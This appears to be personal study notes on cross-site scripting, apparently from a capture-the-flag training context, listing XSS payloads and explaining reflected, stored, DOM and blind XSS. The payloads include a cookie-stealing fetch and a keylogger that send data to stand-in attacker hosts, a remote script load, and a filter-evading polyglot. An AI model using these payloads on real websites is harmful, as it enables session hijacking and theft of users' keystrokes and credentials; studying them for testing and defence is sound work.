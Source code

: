 # XSS
inject malicious Javascript into a web application with the intention of being executed by other users.

```html
<script>alert("PWND");</script> # the most basic POC
<img src="ATTACKER_IP/pwnd"> # Test if you can reach your own machine
<script src="http://ATTACKER_IP/pwnd.js"></script> # get script from attacker server

#get cookie and send it to attacker by parameter
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script> 

#keylogger
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>


```

## type
### Reflected XSS
Where user supplied input is included directly into the page, making it reflected. 
For example search input is directly displayed on the page, or an error include user supplied input.
Usually exist in:
-   Parameters in the URL Query String
-   URL File Path
-   Sometimes HTTP Headers (although unlikely exploitable in practice)

### Stored XSS
Javascript payload is saved in the server page, which will be run everytime the infected page is visited. 
For example a comment that is not sanitized for xss in a forum or blog.
Common location for stored XSS:
-   Comments on a blog
-   User profile information  
-   Website Listings

### DOM XSS
A normal Javascript is accessing a resource via DOM that an attacker can manipulate and exploit. The resource either will be loaded on a page or passed to an unsafe javascript methods such as eval().

### Blind XSS
Like stored, except you can't check the payload yourself. For example a contact form that is not filtered can only be checked by a staff in a private web portal.
https://xsshunter.com/ is tools for blind xss


## polyglots
An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one.
```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
